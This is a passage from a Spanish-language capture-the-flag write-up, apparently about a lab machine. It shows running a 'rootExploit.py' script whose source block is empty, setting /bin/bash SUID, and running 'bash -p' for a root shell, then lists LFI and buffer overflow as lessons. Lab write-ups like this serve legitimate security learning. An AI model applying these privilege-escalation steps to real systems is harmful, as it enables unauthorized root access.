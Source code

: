 ```python
```

Ya estando listo el exploit en la maquina victima procedemos a ejecutarlo:
```bash
python3 rootExploit.py 

Escribe la contraseña: Estás en modo administrador (key = dead)
Escribe un comando:
```

Si todo salio bien ahora la **bash** tendra permisos **SUID** lo que nos permitira migrar a root:
Hemos logrado con exito:
```bash
ls -l /bin/bash
-rwsr-xr-x 1 root root 1265648 Mar 29  2024 /bin/bash
```

Explotamos el binario
```bash
# Comando para escalar al usuario: ( root )
 bash -p
```

---

## Evidencia de Compromiso
```bash
# Captura de pantalla o output final
bash-5.2# whoami                                                                                                                                                                                                                                                              
root
```

---

## Lecciones Aprendidas
1. Aprendimos a explotar un **LFI**
2. Aprendimos como es un **BufferOverFlow**
3. Aprendimos a realizar un ataque de **BufferOverFlow**